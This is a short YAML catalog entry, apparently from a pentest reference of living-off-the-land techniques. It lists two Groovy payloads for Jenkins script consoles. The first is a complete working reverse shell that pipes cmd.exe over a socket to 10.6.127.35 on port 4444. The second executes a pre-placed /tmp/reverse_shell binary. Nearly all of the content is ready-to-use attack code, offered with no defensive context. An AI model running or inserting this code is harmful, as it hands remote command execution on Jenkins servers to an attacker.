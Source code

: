 ```yaml
---
functions:
  shell:
    - description: Groovy (Jenkins) Reverse Shell 1
      code: |
        String host="10.6.127.35";int port=4444;String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

    - description: Groovy (Jenkins) Reverse Shell 2
      code: |
        def cmd = "/tmp/reverse_shell";
        cmd.execute();
---
```

